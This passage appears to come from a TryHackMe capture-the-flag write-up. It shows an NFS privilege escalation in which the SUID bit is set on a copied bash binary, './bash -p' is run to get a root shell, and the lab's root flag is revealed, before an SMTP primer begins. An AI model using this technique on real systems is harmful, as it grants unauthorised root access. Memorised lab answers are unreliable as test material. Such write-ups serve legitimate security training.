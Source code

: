 Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?
```bash
$ ls -l bash 
-rw-r--r-- 1 root kali 1113504 Jan  7 01:48 bash
$ sudo chmod +s bash                             
$ ls -l bash 
-rwSr-Sr-- 1 root kali 1113504 Jan  7 01:48 bash
```
It's **s** permission that stands for SUID.

Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.
```bash
$ ls -l bash 
-rwSr-Sr-- 1 root kali 1113504 Jan  7 01:48 bash
$ sudo chmod o=rx bash                                                                        1 ⨯
$ ls -l bash    
-rwSr-Sr-x 1 root kali 1113504 Jan  7 01:48 bash
```
It's **`-rwSr-Sr-x`**.

Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.
```bash
cappucino@polonfs:~$ ./bash -p
bash-4.4# whoami
root
```

Great! If all's gone well you should have a shell as root! What's the root flag?
```bash
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
THM{nfs_got_pwned}
```
The root flag is **THM{nfs_got_pwned}**.



## Understanding SMTP
---
---
---
#### SMTP - Sending Emails
SMTP stands for "Simple Mail Transfer Protocol". It is utilised to handle the **sending** of emails. In order to support email services, a protocol pair is required, comprising of SMTP and POP/IMAP. Together they allow the user to send outgoing mail and retrieve incoming mail, respectively.

The SMTP server performs three basic functions:
- It verifies who is sending emails through the SMTP server.
- It sends the outgoing mail
- If the outgoing mail can't be delivered it sends the message back to the sender
